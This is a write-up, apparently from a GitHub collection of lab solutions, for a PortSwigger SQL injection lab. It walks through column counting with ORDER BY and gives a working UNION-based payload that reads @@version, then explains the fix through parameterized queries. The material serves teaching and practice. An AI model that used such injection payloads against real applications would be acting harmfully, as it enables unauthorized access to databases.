

**Category:** SQL Injection  
**Difficulty:** Practitioner  
**Status:** ✅ Solved
**Lab Link:** [PortSwigger Lab](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)

---

## Objective

This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

---

## Background

SQL injection is a web security vulnerability that allows an attacker to interfere with the queries an application makes to its database. This occurs when user input is concatenated directly into SQL queries without proper sanitization.

In **UNION-based SQL injection**, an attacker appends a `UNION SELECT` statement to the original query to retrieve data from other tables. For this to succeed:

1. The injected query must return the **same number of columns** as the original query.
2. The data types in each column must be **compatible**.

When targeting **MySQL or Microsoft SQL Server**, the `@@version` system variable contains the database version string. Unlike Oracle's `v$version` view, `@@version` returns a single string value, making it straightforward to enumerate via a single column in a UNION attack.

---

## My Approach

1. **Determine the number of columns** using `ORDER BY` (as in previous labs):
   ```
   https://<LAB-ID>.web-security-academy.net/filter?category=Gifts%27+ORDER+BY+1--
   https://<LAB-ID>.web-security-academy.net/filter?category=Gifts%27+ORDER+BY+2--
   ```
   The application accepted `ORDER BY 2`, confirming the query returns **2 columns**.

2. **Identify the version enumeration method**: Since this lab targets MySQL/SQL Server (not Oracle), I used the `@@version` system variable instead of `v$version`.

3. **Craft the UNION injection**: With 2 columns confirmed, I constructed a payload returning `@@version` in the first column and `NULL` in the second to match the column count.

4. **Important note**: The SQL comment sequence `--` **must be followed by a space** (or URL-encoded `+`) to be recognized by the database parser. Without it, the injection fails.

5. **Final injection**:
   ```
   UNION SELECT @@version, NULL -- 
   ```
   *(Note the trailing space after `--`)*



---

## Payload Used

```URL
https://<LAB-ID>.web-security-academy.net/filter?category=Gifts%27+UNION+SELECT+@@version,+NULL+--+
```

**Decoded for clarity:**
```
category=Gifts' UNION SELECT @@version, NULL -- 
```

> [!NOTE]  
> The `+` at the end of the URL encodes a **space character**. This space is required after `--` for the SQL comment to be properly recognized by MySQL/SQL Server. Without it, the database may throw a syntax error.

---

## Why It Worked

The original query likely looked like this:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

After injection, it became:

```sql
SELECT * FROM products WHERE category = 'Gifts' UNION SELECT @@version, NULL -- ' AND released = 1
```

### Breakdown

| Component | Purpose |
|-----------|---------|
| `'` | Closes the original string parameter in the `WHERE` clause |
| `UNION SELECT @@version, NULL` | Appends a second query returning the database version string with a matching NULL column |
| `-- ` | SQL comment sequence **(with trailing space)** that neutralizes the rest of the original query |
| `+` (URL-encoded) | Represents the required space after `--` in the final URL |

Since the column count matched (2 columns) and `NULL` is compatible with most data types, the database executed the query successfully and displayed the version string in the response.

---

## How to Fix It

The only reliable defense is to **use parameterized queries (prepared statements)**. This ensures user input is treated as data, not executable code.

See [Lab 1: SQL Injection Fundamentals](01.%20SQL%20injection%20vulnerability%20in%20WHERE%20clause%20allowing%20retrieval%20of%20hidden%20data.md) for language-specific examples.

---

## Key Takeaway

> When targeting **MySQL or Microsoft SQL Server**, the `@@version` system variable provides a reliable method for version enumeration via UNION-based SQL injection. Always remember: the SQL comment sequence `--` **requires a trailing space** (or URL-encoded `+`) to function correctly. As with all SQL injection defenses, the most effective protection is to use **parameterized queries** and never concatenate user input directly into SQL statements.